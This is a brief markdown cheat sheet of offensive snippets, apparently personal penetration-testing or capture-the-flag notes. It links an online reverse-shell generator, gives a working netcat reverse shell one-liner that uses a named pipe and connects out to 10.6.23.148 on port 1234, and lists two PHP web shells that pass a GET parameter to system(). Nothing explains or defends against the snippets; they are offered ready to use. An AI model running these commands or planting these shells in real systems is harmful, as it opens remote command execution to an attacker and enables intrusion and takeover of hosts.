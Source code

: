 # Basic things
## online reverse shell editor
* https://www.revshells.com/
## netcat reverse shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.23.148 1234 >/tmp/f
## php web shell
* <?php system($_GET['cmd']); ?>
* <?php system($_GET[1]); ?>
